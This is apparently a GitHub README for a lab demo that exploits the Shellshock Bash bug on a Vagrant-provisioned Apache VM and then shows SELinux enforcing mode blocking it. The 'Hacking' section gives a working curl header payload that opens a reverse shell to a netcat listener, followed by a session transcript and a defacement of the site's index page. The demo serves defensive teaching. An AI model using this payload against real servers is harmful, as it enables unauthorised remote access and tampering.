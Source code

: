 Shellshock
==========

Shellshock, also known as Bashdoor, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014.

Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands.

This demo will show how to prevent security issues similar to shellshock by using SELinux

> NOTICE: More details about patching can be found on redhat website [here](https://access.redhat.com/security/vulnerabilities/shellshock#)

Pre-requisites
--------------

This demo was developed on GNU/Linux, my desktop distro is Fedora 28. All tools used will be described below:

* Fedora
* CentOS/RHEL
* Vagrant
* Libvirt/KVM
* Ansible
* netcat

Provisioning
------------

In order to make it possible to use this demo, you should first provision your environment after checkout this repo.

```bash
$ git clone https://github.com/fabiogoma/selinux-shellshock
$ cd selinux-shellshock
$ vagrant up
Bringing machine 'shellshock' up with 'libvirt' provider...
==> shellshock: Creating image (snapshot of base box volume).
==> shellshock: Creating domain with the following settings...
==> shellshock:  -- Name:              shell_shellshock
==> shellshock:  -- Domain type:       kvm
==> shellshock:  -- Cpus:              2
==> shellshock:  -- Feature:           acpi
==> shellshock:  -- Feature:           apic
==> shellshock:  -- Feature:           pae
==> shellshock:  -- Memory:            2048M
==> shellshock:  -- Management MAC:
==> shellshock:  -- Loader:
==> shellshock:  -- Base box:          centos/7
...
...
...
TASK [fabiogoma.shellshock : Ensure Apache HTTPD server is up] *****************
ok: [shellshock]

TASK [fabiogoma.shellshock : include_tasks] ************************************
included: /home/fabiom/demo/shell/provisioning/playbooks/roles/fabiogoma.shellshock/tasks/security.yml for shellshock

TASK [fabiogoma.shellshock : Ensure firewalld is up] ***************************
changed: [shellshock]

TASK [fabiogoma.shellshock : Enable http access] *******************************
changed: [shellshock]

TASK [fabiogoma.shellshock : Reload firewall rules] ****************************
changed: [shellshock]

PLAY RECAP *********************************************************************
shellshock                 : ok=25   changed=19   unreachable=0    failed=0
```

After provisioning your environment, you should be able to check a web page hosted by your new provisioned host, just navigate to http://shellshock.local/ on your prefered browser, you should see a page similar to the one below:

<p align="center">
  <img src="images/characters.png">
</p>

Hacking
-------

Let's now open two terminals and execute a hack.

On your first terminal, using the netcat tool (nc) initiate a socket listener on port 9999 with some verbosity:

```bash
$ nc -lkvp 9999
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 459E 024D BF1A BA99 7052 5697 87C1 BCE9 50BD 675C
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

Open a second terminal and now using curl, tell your http server to initiate a remote session on your local server listening on port 9999:

```bash
$ curl -k -H 'x: () { :;}; /bin/bash -i >& /dev/tcp/192.168.122.1/9999 0>&1' http://shellshock.local/cgi-bin/script

```

> NOTICE: After pressing enter, you will see no result, but the terminal will hang, waiting for a Ctrl+C to terminate the command. It will probably terminate by timeout, but your hacked session will be started already.

On your first terminal, you will see a new session runing:

```bash
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.121.104.
Ncat: Connection from 192.168.121.104:36908.
bash: no job control in this shell
bash-4.2$ pwd
pwd
/var/www/cgi-bin
bash-4.2$ cd ../html
cd ../html
bash-4.2$ pwd
pwd
/var/www/html
bash-4.2$ ls -l
ls -l
total 172
-rw-r--r--. 1 apache apache 36966 Sep 18 20:06 daphne.png
-rw-r--r--. 1 apache apache 32898 Sep 18 20:06 fred.png
-rw-r--r--. 1 apache apache   407 Sep 18 20:06 index.html
-rw-r--r--. 1 apache apache 43113 Sep 18 20:06 shaggy.png
-rw-r--r--. 1 apache apache 45709 Sep 18 20:06 velma.png
bash-4.2$ 

```

This is a new bash session running on your remote http server, whatever you do here, will immediatelly take efect on your server.

The expected result so far is the one we show below:

<p align="center">
  <img src="images/terminals-hacked.png">
</p>

Now let's hack the remote server by changing the index.html content

```bash
bash-4.2$ pwd
pwd
/var/www/html
bash-4.2$ echo "<h1>Hacked</h1>" > index.html
echo "<h1>Hacked</h1>" > index.html
bash-4.2$
```

The hacked page now should no longer show your cartoon characters, but the hacked content instead.

<p align="center">
  <img src="images/hacked.png">
</p>

Protecting your system
----------------------

Now let's start over by executing the provisioner again to return all configuration to the initial state

```bash
$ vagrant up --provision
Bringing machine 'shellshock' up with 'libvirt' provider...
==> shellshock: Running provisioner: ansible...
    shellshock: Running ansible-playbook...

PLAY [Provisioning shellshock demo host] ***************************************

TASK [Gathering Facts] *********************************************************
ok: [shellshock]

TASK [include_role : fabiogoma.common] *****************************************

TASK [fabiogoma.common : Disable IPV6] *****************************************
ok: [shellshock]

TASK [fabiogoma.common : Install EPEL repo] ************************************
ok: [shellshock]

TASK [fabiogoma.common : Install basic packages] *******************************
ok: [shellshock] => (item=[u'nss-mdns', u'net-tools', u'telnet', u'tcpdump', u'lsof', u'strace', u'wget', u'mlocate', u'setroubleshoot', u'setroubleshoot-server', u'policycoreutils-devel'])

TASK [fabiogoma.common : Configure mDNS] ***************************************
ok: [shellshock]

TASK [fabiogoma.common : Configure hostname] ***********************************
ok: [shellshock]
...
...
...
TASK [fabiogoma.shellshock : include_tasks] ************************************
included: /home/fabiom/demo/shell/provisioning/playbooks/roles/fabiogoma.shellshock/tasks/security.yml for shellshock

TASK [fabiogoma.shellshock : Ensure firewalld is up] ***************************
ok: [shellshock]

TASK [fabiogoma.shellshock : Enable http access] *******************************
ok: [shellshock]

TASK [fabiogoma.shellshock : Reload firewall rules] ****************************
skipping: [shellshock]

PLAY RECAP *********************************************************************
shellshock                 : ok=22   changed=1    unreachable=0    failed=0
```

> NOTICE: This time the provisioning will be much faster, since the only change happening now will be on the index.html file

Using vagrant let's change the SELinux state from permissive to enforcing

```bash
$ vagrant ssh
Last login: Tue Sep 18 20:27:11 2018 from 192.168.121.1
[vagrant@shellshock ~]$ getenforce
Permissive
[vagrant@shellshock ~]$ sudo setenforce 1
[vagrant@shellshock ~]$ getenforce
Enforcing
[vagrant@shellshock ~]$
```

Let's do the hack again and check the result on image below:

<p align="center">
  <img src="images/terminals-protected.png">
</p>

> NOTICE: You'll see now that you are no longer able to run a remote shell, this is due the fact of SELinux now is set to enforce security and your system will be protected.
